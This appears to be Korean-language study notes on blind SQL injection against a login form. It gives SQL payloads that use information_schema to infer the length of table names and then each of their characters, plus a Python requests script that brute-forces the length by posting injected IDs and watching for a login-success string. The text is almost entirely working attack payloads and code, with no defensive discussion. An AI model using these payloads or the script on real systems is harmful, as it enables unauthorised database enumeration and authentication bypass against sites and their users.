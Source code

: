 ## table name length

```sql
table name length blind sql injection

SELECT * FROM member WHERE id='' or length((select table_name from information_schema.tables where table_schema='testdb' limit 0,1))=0~10--'' and pw=''

-> table_schema 으로 알고있는 db 이름을 넣으면 된다.

-> 만약에 해당 테이블 외에도 다른 테이블도 하고싶다면 limit 0,1 을 1,1 등등으로 바꾸면 된다.
```

### table name length 브루트포스 script

```python
import requests
#requests 모듈 import
databasename = (table 주입 공격할 db)
#table 길이 공격할 db 이름
for tblength in range(1,100):
    #table length 브루트보스할 길이 생성
    data = {
        'id':f"' or length((select table_name from information_schema.tables where table_schema='{databasename}' limit 0,1))={tblength}--'",
        # table name length sql injection query
        'pw':'No Value'
        # No Value
    }

    Urlrequest = requests.post(Url ,data=data)
    #원하는 url 로 data 전송

    if Urlrequest.text.find("Login succee!") > 0:
        # 해당 query 이 참이 될시 로그인 되는것과 동일
        print("database(db) name length",tblength)
        #위의 조건이 종촉될시에 length 출력하면서 for 나오기
        break
```

## table name 브루트포스

```sql
Mysql table name 한글자씩 추측

SELECT * FROM member WHERE id='' or substr((select table_name from information_schema.tables where table_schema='testdb' limit 0,1),1,1)=0~z--'' and pw=''

-> table_schema 에서 원하는 db 로 하고 
-> 혹시 모를 많을 table 들을 limit 로 하나씩 한다.
```

